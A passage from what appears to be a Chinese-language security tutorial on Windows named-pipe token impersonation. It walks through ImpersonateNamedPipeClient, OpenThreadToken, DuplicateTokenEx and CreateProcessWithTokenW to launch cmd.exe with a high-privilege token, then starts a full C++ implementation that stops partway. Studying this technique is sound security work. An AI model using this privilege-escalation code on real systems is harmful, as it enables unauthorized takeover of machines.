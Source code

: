 命名管道是支持模拟客户端权限的，为此我们需要利用到 ImpersonateNamedPipeClient 这个 API 去指定模拟高权限的句柄，此 API 调用完成之后 windows 将自动替换客户端的 access token 到我们服务端，这一个特性将导致后续一系列的提权技术，后续的技术都是围绕怎么样让具备高权限的进程向我们的进程发起认证请求：

```plain
ImpersonateNamedPipeClient(hPipe);
```

一旦完成模拟操作，我们当前进程的线程就有了客户端的高权限令牌，拿到这个令牌可以使用 OpenThreadToken 拿到

```plain
HANDLE hToken;
OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken)
```

一旦 hToken 就位，我们使用 DuplicateTokenEx 函数复制一个已经存在的访问令牌，这个函数可以创建主令牌和模拟令牌

```plain
HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;
DuplicateTokenEx(hToken, 
                 TOKEN_ALL_ACCESS, 
                 NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup)
```

为了让权限的变化更加明显，我们使用这个高权限的 token 创建一个新的 cmd.exe 进程，成功完成提权：

```plain
wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
CreateProcessWithTokenW(hSystemTokenDup, 
    LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false)
```

完整实现和演示效果

```plain
#include <Windows.h>
#include <iostream>
#include <vector>
#include <sddl.h>

int main() {
    using namespace std;

    wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
    const char pipename[] = "\\\\.\\pipe\\endlessparadox";

    //SECURITY_ATTRIBUTES sa = { 0 };
    //SECURITY_DESCRIPTOR sd = { 0 };

    //wchar_t message[] = L"misaki";

    //InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
    //ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL);

    HANDLE NamedPipehandle = CreateNamedPipeA(pipename,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_BYTE | PIPE_WAIT,
        10,
        2048,2048,0, NULL);
    if (NamedPipehandle == NULL) {
        cout << "NamedPipehandle " << GetLastError() << endl;
        getchar();
    }

    if (ConnectNamedPipe(NamedPipehandle, NULL) == false) {
        cout << "ConnectNamedPipe " << GetLastError() << endl;
        getchar();
    }

```